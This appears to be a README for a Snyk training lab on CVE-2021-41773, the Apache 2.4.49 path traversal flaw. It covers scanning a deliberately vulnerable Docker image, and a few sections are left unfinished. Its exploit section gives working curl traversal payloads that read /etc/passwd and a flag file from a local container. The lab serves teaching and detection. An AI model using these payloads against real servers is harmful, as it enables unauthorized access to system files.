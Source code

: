 # CVE-2021-41773

CVE-2021-41773 is a CVE within the Apache HTTP Server, specifically version 2.4.49. 

> A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

[National Institute of Standards and Technology](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)


## CVE Lab

This lab contains a vulnerable Dockerfile, which includes the Apache 2.4.49 package and its associated configuratons which this CVE required to be installed.

We can


## Scanning with Snyk 

To use Snyk, you must first:

* Sign up for Snyk
* Install the CLI agent using Node (must have NPM installed) `npm install -g snyk`
* Authenticate with snyk `snyk auth "<API KEY>"` (this is already handled on the playground instances)

You can now start to scan local images using Snyk. Snyk will analyise the dependencies installed in the image, and scan them against its backend database of vulnerabilities.


### Updating the dependency 

In the Dockerfile



## Making it safe 

There are two directories within the Docker directory, both containing a Dockerfile and a set of dependencies.

* vulnerable
* safe.

To build the vulnerable image, run the following command:

```
$ docker build vulnerable -t apache-vulnerable
```

This will create a Docker image using the Dockerfile located in the `vulnerable` directory, and tag it `apache-vulnerable`.

Now you have built the vulnerable Docker image, it's time to scan this using Snyk. To scan a Docker image, run the following:

```
$ snyk container test apache-vulnerable


Testing cve-2021...


✗ Low severity vulnerability found in apache2/apache2-bin
  Description: Cross-site Scripting (XSS)
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-391822
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...

✗ High severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728102
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ High severity vulnerability found in apache2/apache2-bin
  Description: NULL Pointer Dereference
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728105
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ Critical severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1729585
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.51-1



Organization:      ecsdcmhrpr
Package manager:   deb
Project name:      docker-image|cve-2021
Docker image:      cve-2021
Platform:          linux/amd64
Licenses:          enabled

Tested 146 dependencies for known issues, found 55 issues.

Pro tip: use `--file` option to get base image remediation advice.
Example: $ snyk test --docker cve-2021 --file=path/to/Dockerfile

To remove this message in the future, please run `snyk config set disableSuggestions=true`

```

## Exploit

We've shown how to detect the vulnerable package, but lets now show you how to exploit it!

First up, start up a new container from the created image

```bash
$ docker run -d -p 9000:80  cve-2021
```

This will start a new container, using the cve-2021 image, mapping the port 9000 to the port run on the apache server within the container. The `-d` flag means it will run in the background.

Lets test we can connect to the server:

```bash
curl localhost:9000
```


Now, to run the exploit:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

[playground@worker3-snyk ~]$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

This will exploit a flaw in the directory traversal code of the Apache HTTPD server. IN this case, we will use this exploit to read the contents of the "/etc/passwd" file.

To actually retrieve the flag, we will change the command to print the contents of /workon/flag.txt:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/workon/flag.txt"
```
